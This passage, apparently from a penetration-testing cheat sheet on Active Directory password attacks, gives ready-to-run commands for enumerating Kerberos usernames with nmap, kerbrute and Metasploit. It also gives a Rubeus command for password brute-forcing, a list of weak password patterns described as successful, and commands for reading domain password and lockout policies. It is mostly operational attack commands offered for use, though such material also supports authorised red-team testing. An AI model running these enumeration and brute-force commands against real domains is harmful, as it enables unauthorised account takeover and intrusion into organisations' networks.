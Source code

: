 `Rubeus` (Zer1to’s fork: https://github.com/Zer1t0/Rubeus), `nmap`'s
`krb5-enum-users` script, `Kerbrute` and `metasploit`'s
`auxiliary/gather/kerberos_enumusers` module can be used to  enumerate
usernames through `Kerberos`:

```
nmap -v -p 88 --script krb5-enum-users --script-args krb5-enum-users-realm='<DOMAIN_FQDN>',userdb=<WORDLIST_USER> <KDC_IP | KDC_HOSTNAME>

kerbrute userenum [--dc <KDC_IP | KDC_HOSTNAME>] -d <DOMAIN> <WORDLIST_USERS>

# Will conduct password bruteforcing as well
Rubeus.exe brute /users:<WORDLIST_USERS> /passwords:<WORDLIST_PASSWORDS> /domain:<DOMAIN> /outfile:<RESULT_FILE>

use auxiliary/gather/kerberos_enumusers
```

### Passwords list

For the success of a password attack, a good password list is essential.

The passwords must satisfied the password policy defined for the domain. To
retrieve the password policy enforced, refer to the Active Directory - Domain
Recon note.

The following passwords have been tried with great success:

```
<COMPANY_NAME><YEAR>
<COMPANY_NAME><YEAR>!
Bonjour<YEAR>
Bonjour<YEAR>!
Azerty1234
Azerty1234!
```

### Password and account lockout policies

The following commands can be used to determine the password and account
lockout policies enforced on the domain:

```
# Parsed and human readable password and lockout policies
net accounts
net accounts /domain

# PowerShell
$RootDSE = Get-ADRootDSE
$RootDSE = Get-ADRootDSE -Server <DC> -Credential <PSCredential>
# Password policy
Get-ADObject $RootDSE.defaultNamingContext -Properties minPwdAge, maxPwdAge, minPwdLength, pwdHistoryLength, pwdProperties
# Account lockout policy
Get-ADObject $RootDSE.defaultNamingContext -Properties lockoutDuration, lockoutObservationWindow, lockoutThreshold

# AdFind.exe
AdFind.exe -default -s base lockoutduration lockoutthreshold lockoutobservationwindow maxpwdage minpwdage minpwdlength pwdhistorylength pwdproperties
```
